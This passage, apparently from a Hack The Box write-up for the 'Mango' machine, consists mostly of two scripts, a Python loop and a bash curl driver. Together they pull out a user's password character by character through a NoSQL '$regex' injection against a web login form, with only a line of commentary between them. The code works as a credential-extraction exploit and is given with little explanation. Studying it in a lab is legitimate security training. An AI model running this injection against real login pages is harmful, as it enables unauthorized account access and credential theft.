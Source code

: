 <div class="filename"><span>extract.py</span></div>

```python
import os
import string

password = ''
charset  = string.ascii_letters + string.digits + string.punctuation

while True:
    for c in charset:
        if c not in ['*','+','.','?','|', '#', '&', '$']:
            payload = password + c
            r = os.system("./brute.sh '" + payload + "'")
            if r == 0:
                print("Found one more char : %s" % (password + c))
                password += c
                break
```

As you can see from above, I'm making use of Python to produce the character set while using `brute.sh` as the main driver for HTTP requests (because I love `curl`!).

<div class="filename"><span>brute.sh</span></div>

```bash
#!/bin/bash

HOST=staging-order.mango.htb
USER=mango
PASS=$1
TEMP=$(mktemp -u)

curl -s \
     -c $TEMP \
     -o /dev/null \
     -d "username=${USER}&password=whatever&login=login" \
     "http://$HOST/"

response=$(curl -s \
                -b $TEMP \
                -o /dev/null \
                -w "%{http_code}" \
                -d "username=$USER&password[\$regex]=^$PASS" \
    "http://$HOST/index.php?type=embed")

if [ "$response" -eq 302 ]; then
  rm -rf $TEMP
  exit 0
fi  

rm -rf $TEMP; exit 1
```


[1]: https://www.hackthebox.eu/home/machines/profile/214
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/